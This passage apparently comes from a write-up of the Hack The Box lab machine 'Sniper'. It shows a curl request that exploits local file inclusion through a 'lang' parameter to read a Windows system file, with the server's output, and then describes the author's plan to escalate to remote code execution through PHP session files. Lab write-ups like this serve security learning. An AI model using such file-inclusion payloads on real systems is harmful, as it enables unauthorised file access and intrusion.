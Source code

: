 ```
curl -X GET http://10.10.10.151/blog?lang=/windows/win.ini

<SNIP>
</html>
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
</body>
</html>	
```
### Session Cookie
we need to find a way to upgrade from `LFI` to `RCE`. After googling a bit, I came a cross [Upgrade form LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/) blog. Browsing to `/user` directory we see a `login` page. where we can `sign up` too. Let's register a user and see what the user session file contains. I registered as `username: test, Email: test@test.com`.

![](/assets/images/htb-writeup-sniper/login.png)
